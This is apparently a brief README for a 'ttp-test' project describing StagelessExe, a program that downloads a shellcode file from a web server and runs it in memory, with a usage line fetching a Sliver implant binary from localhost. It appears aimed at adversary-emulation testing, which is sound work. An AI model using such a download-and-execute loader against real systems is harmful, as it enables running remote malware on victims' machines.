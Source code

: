 # ttp-test solution

- StagelessExe is a test program that downloads a shellcode file from a web server and runs it in memory.

#### Usage

```
C:\> StagelessExe.exe http://localhost:8080/sliver.bin
```


